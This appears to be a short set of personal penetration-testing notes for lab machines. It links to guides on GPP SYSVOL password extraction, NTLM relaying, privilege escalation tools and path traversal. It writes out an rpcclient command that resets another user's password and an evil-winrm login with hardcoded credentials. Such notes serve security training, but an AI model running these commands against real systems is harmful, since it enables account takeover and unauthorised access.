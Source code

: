 # Temp - Notes

Exploiting GPP SYSVOL - cname password / Groups.xml

{% embed url="https://vk9-sec.com/exploiting-gpp-sysvol-groups-xml/" %}

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

### Setting up network between Vbox and VMware

{% embed url="https://www.sysprobs.com/setup-network-virtualbox-vmware-virtual-machines" %}

### Check Recycle bin

you need the SID for the user that you want to check the recycle bin for.

```
cd 'C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001'
```



Change password for user over rcpclient

{% code title="Output should be nothing." %}
```
rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.10.10.192 -c 'setuserinfo2 audit2020 23 "alien##123"'
```
{% endcode %}



### EVIL-WINRM for ATHNEA

```
👾]/home/ali3nw3rx $ sudo docker run --rm -ti --name evil-winrm  oscarakaelvis/evil-winrm -i 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'
```

runAS

{% embed url="https://github.com/antonioCoco/RunasCs" %}

{% embed url="https://steflan-security.com/windows-privilege-escalation-runas-stored-credentials/" %}

Chisel

{% embed url="https://github.com/jpillora/chisel/releases/tag/v1.7.7" %}

Juicy PotatoNG

{% embed url="https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1" %}

Windows path traversal cheet sheat

{% embed url="https://gist.github.com/SleepyLctl/823c4d29f834a71ba995238e80eb15f9" %}
